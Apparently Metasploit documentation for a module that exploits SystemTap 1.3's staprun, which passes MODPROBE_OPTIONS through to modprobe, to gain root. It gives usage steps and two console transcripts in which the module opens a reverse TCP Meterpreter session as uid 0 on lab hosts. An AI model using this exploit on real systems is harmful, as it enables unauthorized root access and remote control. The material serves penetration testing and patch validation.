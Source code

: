 ## Description

  This module attempts to gain root privileges by exploiting a
  vulnerability in the `staprun` executable included with SystemTap
  version 1.3.

  The `staprun` executable does not clear environment variables prior to
  executing `modprobe`, allowing an arbitrary configuration file to be
  specified in the `MODPROBE_OPTIONS` environment variable, resulting
  in arbitrary command execution with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * systemtap 1.2-1.fc13-i686 on Fedora 13 (i686)
  * systemtap 1.1-3.el5 on RHEL 5.5 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/systemtap_modprobe_options_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### STAPRUN_PATH

  Path to staprun executable (default: `/usr/bin/staprun`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 5.5 (x64)

  ```
  msf > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.rX9IoM53YEb92' (207 bytes) ...
  [*] Writing '/tmp/.rX9IoM53YEb92.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.202
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.202:52074) at 2019-04-18 12:50:56 -0400
  [+] Deleted /tmp/.rX9IoM53YEb92
  [+] Deleted /tmp/.rX9IoM53YEb92.conf
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  Retrying, after attempted removal of module As5A2hFpvQ2L (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 5 (Linux 2.6.18-194.el5)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

### Fedora 13 (x86)

  ```
  msf > use exploit/linux/local/systemtap_modprobe_options_priv_esc
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/systemtap_modprobe_options_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.otCyN6cAa7aUo0v' (207 bytes) ...
  [*] Writing '/tmp/.otCyN6cAa7aUo0v.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.138
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  Retrying, after attempted removal of module l0rDp93O8f (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.33.3-85.fc13.i686.PAE/systemtap/l0rDp93O8f.ko": No such file or directory
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.138:33541) at 2019-04-19 07:26:46 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

